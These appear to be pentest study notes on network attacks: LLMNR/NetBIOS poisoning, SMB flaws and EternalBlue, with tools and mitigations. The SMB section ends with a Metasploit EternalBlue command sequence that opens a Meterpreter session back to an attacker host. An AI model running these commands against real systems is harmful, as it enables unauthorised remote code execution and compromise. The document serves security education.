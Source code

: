 ### **Exploiting Network-Based Vulnerabilities**
- **Objective**: Enumerate assets, assess protocols and services, and identify vulnerabilities for exploitation.
- **Focus Areas**:
  1. **IAM Testing**: Evaluate identity and access management for internal and external threats.
  2. **On-Path Attacks**: Test MITM attacks to access accounts and data.
  3. **Network Share Enumeration**: Identify shared resources vulnerable to attack.
- **Common Attacks**:
  - **DNS Cache Poisoning**
  - **Pass-the-Hash**
  - **SMB and SNMP Exploits**
  - **DoS/DDoS**
  - **NAC Bypass**
  - **SSL Stripping**

---

### **Windows Name Resolution and SMB Attacks**
#### **NetBIOS and LLMNR Vulnerabilities**
- **NetBIOS**: Used for name resolution in small networks.
  - Ports: 
    - UDP 137 (Name Service)
    - UDP 138 (Datagram Service)
    - TCP 139 (Session Service)
  - Protocol replaced by DNS for larger networks.
- **LLMNR**: Based on DNS, allows name resolution for hosts on the same link.
- **Common Attack**:
  - LLMNR/NetBIOS poisoning:
    1. Attacker spoofs a source, intercepts requests.
    2. Obtains NTLMv2 hash for brute-forcing passwords offline.
  - Tools: **Responder**, **Metasploit**, **NBNSpoof**.
- **Mitigation**:
  - Disable LLMNR/NetBIOS in security settings.
  - Monitor registry changes to the `EnableMulticast` DWORD key.

---

#### **SMB Exploits**
- **SMB Overview**:
  - Protocol for sharing files across operating systems.
  - Vulnerabilities include **buffer overflows**, **code execution**, and **authentication flaws**.
- **Notable Exploit**: **EternalBlue**
  - Leaked NSA exploit used in ransomware (e.g., WannaCry).
  - Allows remote attackers to execute arbitrary code.
  - Integrated into tools like Metasploit.
- **Example Usage (Metasploit)**:
  - Commands to exploit:
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOST <target_IP>
    set LHOST <attacker_IP>
    exploit
    ```
  - **Outcome**: Opens a Meterpreter session for further exploitation.

---